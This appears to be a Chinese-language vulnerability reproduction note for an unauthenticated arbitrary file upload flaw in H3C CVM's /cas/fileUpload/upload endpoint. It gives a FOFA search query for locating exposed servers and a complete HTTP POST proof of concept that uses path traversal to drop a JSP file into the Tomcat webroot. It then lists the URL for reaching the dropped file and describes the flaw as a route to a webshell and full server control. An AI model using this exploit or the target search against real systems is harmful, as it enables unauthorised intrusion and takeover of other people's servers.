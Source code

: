 ## H3C-CVM-upload接口前台任意文件上传漏洞复现

 H3C CVM /cas/fileUpload/upload接口存在任意文件上传漏洞，未授权的攻击者可以上传任意文件，获取 webshell，控制服务器权限，读取敏感信息等。

## fofa

```
app="H3C-CVM"
```
![image](https://github.com/user-attachments/assets/f11e72ec-2cf0-41d5-ad22-8a96d415b5a9)

## poc

```
POST /cas/fileUpload/upload?token=/../../../../../var/lib/tomcat8/webapps/cas/js/lib/buttons/a.jsp&name=123 HTTP/1.1
Host: your-ip
Content-Range: bytes 0-10/20
Referer: http://your-ip/cas/login
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
 
<%out.println("test");%>
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406040902939.webp)

访问文件路径

```
/cas/js/lib/buttons/a.jsp
```
